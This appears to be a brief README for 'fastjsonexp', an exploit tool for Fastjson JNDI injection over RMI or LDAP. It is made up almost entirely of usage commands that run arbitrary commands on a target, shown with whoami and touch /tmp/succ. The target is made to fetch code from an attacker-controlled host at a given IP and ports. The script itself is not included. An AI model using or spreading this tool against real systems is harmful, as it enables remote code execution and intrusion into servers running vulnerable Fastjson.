 # fastjsonexp

fastjson jndi injection 
rmi/ldap 

## how to use
```
test.py -c <comand> -i <hostip> -t <rmi/ldap> --httpport <httpport> --jndiport <jndiport>

python fastjsonexp.py -c "whoami" -i 30.1.2.222 -t rmi  --httpport 8888  --jndiport 9999

python fastjsonexp.py -c "touch /tmp/succ" -i 30.1.2.222 -t ldap  --httpport 8888  --jndiport 9999
```
